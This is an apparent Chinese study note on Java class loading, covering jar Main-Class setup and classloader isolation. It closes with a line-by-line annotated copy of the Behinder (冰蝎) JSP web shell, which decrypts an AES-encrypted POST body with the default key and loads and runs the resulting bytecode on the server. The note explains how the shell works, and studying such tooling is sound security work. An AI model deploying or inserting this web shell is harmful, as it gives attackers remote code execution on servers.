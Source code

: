 　　在第三行的位置写入 Main-Class: Hello （注意冒号后面有一个空格，整个文件最后有一行空行），保存

　　再次运行 java -jar hello.jar ，此时成功在控制台看到 hello ，成功

### 六、类加载隔离

创建类加载器的时候可以指定该类加载的父类加载器，ClassLoader是有隔离机制的，不同的ClassLoader可以加载相同的Class（两者必须是非继承关系），同级ClassLoader跨类加载器调用方法时必须使用反射。

![image-20230510150820656](C:\Users\aaa\AppData\Roaming\Typora\typora-user-images\image-20230510150820656.png)



### **七、冰蝎一句话理解**

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>

<%!

  class U extends ClassLoader {

 

​    U(ClassLoader c) {

​      super(c); //super(调用父类classLoader的构造方法)

​    }

 

​    public Class g(byte[] b) {

​      return super.defineClass(b, 0, b.length); 

​		//传入字节码调用，父类classLoder的defineClass传入字节码加载类

​    }

  }

%>

<%

  if (request.getMethod().equals("POST")) {

​    String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/

​    session.putValue("u", k);

​    Cipher c = Cipher.getInstance("AES");

​    c.init(2, new SecretKeySpec(k.getBytes(), "AES"));

​	//很明显，第一个参数，指定了密码的模式，第二个参数就是一个KEY类的实例，KEY类也很单纯，抛去各种方法，函数，也就是两个变量，一个是密钥，一个是算法名。2为解密模式

​    new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);

  }

%>
